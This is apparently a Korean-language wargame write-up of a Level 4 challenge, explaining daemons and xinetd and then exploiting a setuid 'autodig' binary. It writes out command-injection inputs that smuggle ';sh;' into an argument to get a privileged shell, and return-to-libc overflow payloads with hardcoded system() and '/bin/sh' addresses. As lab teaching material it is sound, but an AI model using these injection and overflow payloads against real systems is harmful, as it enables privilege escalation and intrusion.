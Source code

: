 ## LEVEL 4



1. hint

   ![](./images/1572942225885.png)



2. `/etc/xinetd.d`에서 backdoor 파일 확인

   ![](./images/1572942324076.png)



------------------------



#### 개념 이해



1. Daemon (데몬)

   > 시스템에 관련된 작업을 수행하는 background process를 통칭하는 용어
   
   - 특징
     - 부팅 단계부터 지정된 daemon 동작
     - 서비스의 요청이 없는 경우에는 유휴(idle) 상태를 유지함
     - 기본적인 시스템 resource를 소모



   - Stand alone 방식
     - 각 service daemon이 항상 standby하고 있다가 service 요청이 오면 바로 작동
     
     - 자주 사용되는 service에 사용
     
       > ex) httpd, sshd ...
     
     
   - Xinetd 방식
   
     > eXtended InterNET service Daemon
   
     - Internet Super Daemon이 다른 daemon들을 관리하는 형태
     
     - Super daemon만 standby하고 있다가 service 요청이 들어오면 해당 service 프로그램을 실행 시킴
     
       - 네트워크 접속 제어 역할 수행
       - 특정 service daemon 대신 client가 연결을 하면 연결을 받아들이는 역할
     
     - 자주 사용하지 않는 service에 사용
     
       > ex) telnet ...

   

----------------------------



#### 취약점 공략



1. 환경 변수 - PATH

   `echo $PATH`

   ![](./images/1572590486253.png)

   - `/bin` 이 환경 변수 PATH에 지정되어 있으므로 `/bin`에 있는 파일은 이름만으로 실행 가능

     

2. file (`autodig`) 실행

   - parameter를 쓰지 않은 경우

     `autodig`

     ![1572590586521](./images/1572590586521.png)

     ​	→ argc가 2개가 아님 (argc = 1)

     

   - parameter를 잘못 쓴 경우

     `autodig 168.126.63.1 www.naver.com`

     ![1572590737920](./images/1572590737920.png)

     ​	→ argc가 2개가 아님 (argc = 3)

     

   - parameter를 " "로 감싸준 경우

     `autodig "168.126.63.1 www.naver.com"`

     ![1572591403173](./images/1572591403173.png)

     ​	→ argc = 2

     ​	→ `dig @168.126.63.1 naver.com` 가 실행됨



3. 첫번째 공격

   > ; 를 이용한 공격

   - `;`, `&&` : 명령어를 자동으로 이어서 실행 가능 (앞 명령어가 끝나면 뒷 명령어가 실행되는 방식)

     - `pwd; id; ls -ld /etc`

       ![1572668178064](./images/1572668178064.png)

       ​	→ `pwd`, `id`, `ls -ld /etc` 명령어를 차례로 실행

       
     
     - `pwddd; id; ls -ld /etc`
     
       ![1572668385934](./images/1572668385934.png)
     
       ​	→ `;` 를 이용한 명령어는 앞 명령어가 틀려도 뒷 명령어 실행 가능
     
       
     
     - `pwd && id && ls -ld /etc`
     
       ![1572668279714](./images/1572668279714.png)
     
       ​	→ `pwd`, `id`, `ls -ld /etc` 명령어를 차례로 실행
     
       
     
     - `pwddd && id &&& ls -ld /etc`
     
       ![1572668468868](./images/1572668468868.png)
     
       ​	→ `&&` 를 이용한 명령어는 앞 명령어가 틀리면 뒷 명령어 실행 불가능
     
       
     
   - `autodig "168.126.63.1 www.naver.com;sh;"`

     ![](./images/1572668846691.png)

     ​	→ `dig 168.126.63.1 www.naver.com;sh; version.bind chaos txt` 를 실행한 결과와 같음

     ​	→ setuid bit가 설정되어 있으므로 `sh`는 level 4의 권한으로 실행된다

     

   - `autodig "168.126.63.1 www.naver.com;my-pass;"`

     ![1572668920547](./images/1572668920547.png)

     ​	→ `dig 168.126.63.1 www.naver.com;my-pass; version.bind chaos txt` 를 실행한 결과와 같음

     ​	→ setuid bit가 설정되어 있으므로 `my-pass`는 level 4의 권한으로 실행된다

   

4. 두번째 공격

   > RTL을 이용한 공격

   - RTL(Return To Libc) 

     ​	: stack에 공격 코드인 shell code를 올려놓고 실행하는 기법을 막은걸 우회하는 기법 

     

   - 메모리 구조 분석

     ![1572669094777](./images/1572669094777.png)

   ​	→ 0x78 = 120

   ​	→ 120 = 100 byte + 12 byte (dummy) + 8 byte (dummy)

   ​	⇒	Low                                    								High 
   ​				|-------------- 120 -------------|-- 4 --|-- 4 --| 
   ​				|--- 100  ---|--- 12 ---|--- 8 ---|-- 4 --|-- 4 --|
   ​				+-----------+----------+--------+------+------+
   ​				| cmd[100] | dummy | dummy|  SFP  |  RET  |
   ​				+-----------+----------+--------+------+------+

   

   -  RTL 공격에 필요한 변수 준비

     - system() 함수의 주소

       ![](./images/1572940428687.png)

       

     - "/bin/sh" 문자열의 주소

       - `vi findshell.c` 명령어로 findshell.c 파일 만들기

         ![1572940544315](./images/1572940544315.png)

       - findshell.c 파일 컴파일 및 실행

         ![1572940582569](./images/1572940582569.png)

         

   - 공격 실행

     ```
     autodig `python -c 'print "A"*119+"\xc0\xf2\x03\x42"+"A*4"+"\xa4\x7e\x12\x42"'`
     ```

     ![1572940776853](./images/1572940776853.png)

     - 메모리 구조 분석

       |-------------- 120 -------------|-- 4 --|-- 4 --|-- 4 --|-- 4 --|
       |--- 100  ---|--- 12 ---|--- 8 ---|-- 4 --|-- 4 --|-- 4 --|-- 4 --|
       +-----------+----------+--------+------+------+------+-------+
       | cmd[100] | dummy | dummy|  SFP  |  RET  | argc |argv[1]|
       +-----------+----------+--------+------+------+------+-------+

       |dig @| .......  AAAAAAAAAAAA  ......  |system|AAAA|/bin/sh|

       |-  5  -|-------------- 119 --------------|--- 4 --|-- 4 --|-- 4 --| 

       ​	⇒ `system(/bin/sh)`

       

3. 세번째 공격

   > 환경 변수를 이용한 RTL 공격

   - 환경변수에 "/bin/sh" 문자열 저장

     - `export MYSHELL="/bin/sh"`

       ![1572941394533](./images/1572941394533.png)

     - 환경변수 `MYSHELL` 주소 확인

       - `vi getmyshell.c` 명령어로 getmyshell.c 파일 만들기

         ![1572941635873](./images/1572941635873.png)

       - getmyshell.c 파일 컴파일 및 실행

         ![1572941668858](./images/1572941668858.png)

   

   - 공격 실행

     ```
     autodig `python -c 'print "A"*119+"\xc0\xf2\x03\x42"+"A*4"+"\x6f\xff\xff\xbf"'`
     ```

     ![](./images/1572941830513.png)

     ​	⇒ `system(/bin/sh)`

